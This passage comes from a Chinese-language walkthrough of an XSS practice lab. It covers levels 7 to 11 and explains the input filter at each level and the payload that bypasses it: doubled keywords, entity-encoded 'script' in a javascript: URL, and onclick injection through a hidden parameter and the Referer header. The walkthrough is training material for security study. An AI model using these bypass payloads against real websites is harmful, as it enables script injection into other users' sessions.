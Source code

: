 `<input>`的value值未被实体编码，但是若提交的内容中有script、href会被替换为空。双写绕过。

```
?name="><a hrhrefef=javascrscriptipt:alert(1)>ccb</a>
```

### level 8

引号、<、>均被实体编码，href、script又被过滤，只能使用编码绕过。

将`javascript:alert(1)`中的script转化为实体编码：

```
java&#115;&#99;&#114;&#105;&#112;&#116;:alert(1)
```

### level 9

在第8关的基础上，强制输入的内容要带有`http://`，不然报错。

```
java&#115;&#99;&#114;&#105;&#112;&#116;:alert(`http://`)
```

### level 10

页面上没有输入框，检查源码发现有三个`<input>`，尝试输入发现只有t_sort会回显。

```html
?keyword=1&t_sort=ccb

?keyword=1&t_sort=" type="" onclick= alert(`xss`)>//

// 效果如下
<input name="t_sort"  value="" type="" onclick= alert(`xss`)>//" type="hidden">
```

输入后，再点击页面即可触发onclick事件。

### level 11

与第10关的区别是双引号、<>被实体编码了。

但是可以看到多了一个名为t_ref的input标签，该标签的值也无法通过get方法赋予。但是根据名称，猜测来自referer。抓包，修改referer，发现响应体中的t_ref确实与请求头的referer字段的值相同。

<img src="https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20230917213236492.png" alt="image-20230917213236492" style="zoom:50%;" />

使用BP或者hackbar提交referer即可。

```html
referer:" type="" onclick=alert('xss')>//

// 效果如下
<input name="t_ref"  value="" type="" onclick=alert('xss')>//" type="hidden">
```

![image-20230917215234200](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20230917215234200.png)
